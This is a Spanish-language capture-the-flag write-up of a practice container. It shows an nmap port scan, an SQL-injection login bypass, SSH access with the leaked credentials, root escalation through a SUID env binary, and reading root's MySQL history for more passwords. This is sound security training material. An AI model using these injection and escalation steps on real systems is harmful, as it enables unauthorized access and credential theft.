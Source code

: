 # Herramientas
- Nmap
- GTFOBins

# Procedimiento
Se hace un escaneo con nmap en todos los puertos de la IP y se encuentra esto:
 ```bash
 nmap -p- 172.17.0.3                                                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:19 -04  
Nmap scan report for 172.17.0.3  
Host is up (0.0000020s latency).  
Not shown: 65533 closed tcp ports (reset)  
PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  
MAC Address: 42:58:C9:17:41:E7 (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
 ```

Nos metemos a la página ingresando la IP en el navegador y nos encontramos con un apartado para ingresar las credenciales. Probamos una inyección SQL sencilla `' or 1=1--`, pero no funciona, así que probamos con una variación de este comando `' or 1=1#` y cualquier contraseña.
![[Pasted image 20250714102324.png]]

Al ingresar las credenciales, nos muestra esto:
![[Pasted image 20250714102352.png]]

Tenemos el usuario y la contraseña, por lo que procedemos a probar con el SSH usando estas credenciales.
```bash
ssh dylan@172.17.0.3                     
The authenticity of host '172.17.0.3 (172.17.0.3)' can't be established.  
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.  
This key is not known by any other names.  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '172.17.0.3' (ED25519) to the list of known hosts.  
dylan@172.17.0.3's password:    
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.12.33+kali-amd64 x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/pro  
  
This system has been minimized by removing packages and content that are  
not required on a system that users do not log into.  
  
To restore this content, you can run the 'unminimize' command.  
  
The programs included with the Ubuntu system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by  
applicable law.  
  
dylan@455005d6ecad:~$
```

Como podemos ver, logramos acceder a la máquina. Ahora podemos hacer un escalado de privilegios buscando binarios con permisos SUID.
```bash
find / -perm -4000 -user root 2>/dev/null  
/usr/bin/newgrp  
/usr/bin/env  
/usr/bin/mount  
/usr/bin/su  
/usr/bin/chsh  
/usr/bin/chfn  
/usr/bin/umount  
/usr/bin/gpasswd  
/usr/bin/passwd  
/usr/lib/openssh/ssh-keysign  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

En la página https://gtfobins.github.io/gtfobins/env/ podemos ver que podemos probar con:

```bash
env /bin/sh
```

Pero esto lo debemos adaptar a nuestro entorno, por lo que el comando quedaría así:
```bash
/usr/bin/env /bin/bash -p

whoami
root
```

Finalmente, nos aseguramos de que somos root con el comado `whoami`.

Podemos dirigirnos al historial de mysql de root de esta forma:
```
cd ../../root
cat .mysql_history

_HiStOrY_V2_  
ALTER\040USER\040'root'@'localhost'\040IDENTIFYED\040BY\040'paso';  
ALTER\040USER\040'root'@'localhost'\040IDENTIFIED\040BY\040'paso';  
FLUSH\040PRIVILEGES;  
CREATE\040DATABASE\040register;  
use\040register;  
CREATE\040TABLE\040users\040(username\040VARCHAR(30)\040PRIMARY\040KEY,\040passwd\040VARCHAR(30))  
;  
insert\040users\040(username,passwd)\040VALUES\040('mario','mario');\040  
use\040register;  
show\040tables  
;  
select\040*\040from\040users;  
show\040databases;  
use\040register;  
show\040tables;  
select\040*\040from\040users;  
show\040databases  
;  
use\040register;  
show\040tables;  
select\040*\040from\040users;  
UPDATE\040nombre_de_tabla\040SET\040username\040=\040'dylan',\040passwd\040=\040'KJSDFG789FGSDF78'\040WHERE\04  
0username\040=\040'mario'\040AND\040passwd\040=\040'mario';  
UPDATE\040users\040SET\040username\040=\040'dylan',\040passwd\040=\040'KJSDFG789FGSDF78'\040WHERE\040username\  
040=\040'mario'\040AND\040passwd\040=\040'mario';  
select\040*\040from\040users;
```

Aquí podemos encontrar una credencial más que es de mario con contraseña mario. Como no hay un puerto 3306 abierto, consideramos terminada la máquina.